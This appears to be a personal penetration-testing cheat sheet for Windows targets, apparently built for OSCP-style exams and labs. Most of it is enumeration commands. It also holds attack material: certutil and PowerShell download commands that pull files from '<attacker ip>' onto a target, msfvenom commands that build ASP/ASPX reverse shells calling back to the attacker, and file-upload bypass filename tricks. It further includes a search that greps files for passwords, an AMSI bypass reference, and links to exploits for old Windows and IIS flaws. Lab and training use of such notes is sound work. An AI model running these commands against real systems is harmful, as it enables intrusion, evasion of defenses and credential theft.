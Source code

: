 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

find specific files

```cmd
REM command prompt
dir /s C:\Folder\*.txt
```

```powershell
# powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf","*.ini" | Select-String -Pattern pass
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Task Scheduler(taskschd.msc)

```
schtasks /query /fo LIST /v
```

Powershell [Get-ScheduledTask Script](https://github.com/tedchen0001/OSCP-Notes/blob/master/Write_Scripts/ScheduledTask.ps1)

convert to command line, replace `\r\n` to `empty string` and `"` to `\"`

```cmd
powershell -command "$ScheduledTasks = Get-ScheduledTask | Where-Object {$_.TaskPath -notlike \"\Microsoft*\" -and $_.TaskName -notlike \"*TEST*\"};foreach ($item in $ScheduledTasks) {    [string]$Name       = ($item.TaskName);    [string]$Action     = ($item.Actions | Select-Object -ExpandProperty Execute);    [datetime]$Start    = ($item.Triggers | Select-Object -ExpandProperty StartBoundary);    [string]$Repetition = ($item.Triggers.Repetition | Select-Object -ExpandProperty interval);    [string]$Duration   = ($item.Triggers.Repetition | Select-Object -ExpandProperty duration);    $splat = @{    'Name'       = $Name;    'Action'     = $Action;    'Start'      = $Start;    'Repetition' = $Repetition;    'Duration'   = $Duration;    };    $obj = New-Object -TypeName PSObject -property $splat;    $obj | Write-Output;};"
```

Powershell 2.0 (Windows 7 & Windows Server 2008 R2)

```powershell
schtasks /query /fo csv -v | ConvertFrom-Csv | ? {$_.TaskName -notlike "\Microsoft\Windows*" -and $_.TaskName -notlike "\Microsoft\Office\*" -and $_.TaskName -notlike "\Microsoft\XblGameSave\*" -and $_.TaskName -notlike "TaskName"}
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

Tools

```
PowerUp.ps1 => Invoke-AllChecks
PrivescCheck.ps1 => Invoke-PrivescCheck, Invoke-PrivescCheck -Extended
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
https://lolbas-project.github.io/#
```